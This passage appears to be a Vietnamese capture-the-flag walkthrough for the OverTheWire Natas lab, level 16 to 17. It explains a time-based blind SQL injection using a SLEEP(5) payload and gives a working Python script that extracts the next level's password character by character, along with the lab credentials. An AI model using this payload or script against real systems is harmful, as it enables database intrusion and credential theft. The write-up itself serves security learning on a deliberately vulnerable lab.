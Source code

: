 ```

```
---
### 17. Lv16 -> Lv17

>username/password : **natas17/XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd** 

Chall này khá giống chall `Blind SQLi` ở trên, nhưng có điều khi ta thử thực hiện kiểm tra username `natas18` thì lại hoàn toàn không có thông báo gì cả.

![](https://i.imgur.com/dPA7iIP.png)

Thực hiện kiểm tra code thì thấy rằng các dòng thông báo đã bị comment lại.

![](https://i.imgur.com/p0Bu02G.png)

Đây có vẻ đúng là `Blind` =))
Vậy ta không thể nhận biết sự khác biệt bằng mắt thì ta có thể nhận biết sự khác biệt bằng thứ khác. Cụ thể ở đây ta có thể để cho nó delay tầm 5 giây nếu kết quả trả về đúng.

Payload của chúng ta lúc này sẽ là `natas18" and password like binary "a%" and sleep 5 -- -` lúc này query sẽ là  

```
SELECT * from users where username="natas18" and password like binary "a%" and sleep 5-- -
```
Nếu ký tự đầu tiên là `a` thì kết quả trả về sẽ bị chậm 5 giây, ngược lại thì sẽ nhận được kết quả ngay lập tức.

Tận dụng đoạn code ở level trên và chỉnh sửa một tí để có thể tự động hóa việc thử lỗi này.

```
import requests
import sys
from string import digits, ascii_lowercase, ascii_uppercase

charset = ascii_lowercase + ascii_uppercase + digits
sqli_1 = 'natas18" AND password LIKE BINARY "'
sqli_2 = '" AND SLEEP(5)-- '

s = requests.Session()
s.auth = ('natas17', 'XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd')

password = ""
# We assume that the password is 32 chars 
while len(password) < 32:
    for char in charset:
        try:
            payload = {'username':sqli_1 + password + char + "%" + sqli_2}
            r = s.post('http://natas17.natas.labs.overthewire.org/', data=payload, timeout=1)
        except requests.Timeout:
            sys.stdout.write(char)
            sys.stdout.flush()
            password += char
            break

```
Thực hiện đoạn code trên và nhận lại được password cho level tiếp theo là `8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq`

---